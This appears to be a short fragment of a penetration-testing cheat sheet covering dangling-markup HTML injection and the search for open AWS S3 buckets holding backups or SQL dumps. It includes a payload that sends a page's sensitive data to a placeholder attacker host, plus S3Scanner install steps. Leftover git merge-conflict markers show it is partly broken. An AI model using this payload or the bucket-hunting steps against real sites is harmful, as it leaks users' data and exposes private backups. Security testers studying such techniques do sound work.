     **IMPORTANT NOTES**
    - Send request through Repeater, then "Show Response in Browser"
    - Single vs Double quote is VERY important.  Double quote will end on next double quote and vice-versa
    EX:
        <input type="text" name="input" value="[PAYLOAD]"/>
        [PAYLOAD] = "><img src='//attacker-website.com?
        Resulting HTML: <input type="text" name="input" value=""><img src='//attacker-website.com?[SENSITIVE DATA]"/>

## AWS S3 Buckets

1. Find Open S3 Bucket
2. Search for:
    - sql
    - sql.gz
    - backup.zip
    - backup.gz
    - backup.tar
    - backup.tar.gz
    - Any other file that may be valuable
S3Scanner:
    - Source: https://github.com/sa7mon/S3Scanner
    - Install:
        git clone git@github.com:sa7mon/S3Scanner.git
        cd S3Scanner
        pip3 install -r requirements.txt
        python3 -m S3Scanner

=======
# 403/401 Testing
>>>>>>> 58346f9e02f7ab84175146548fc018baa43b4682
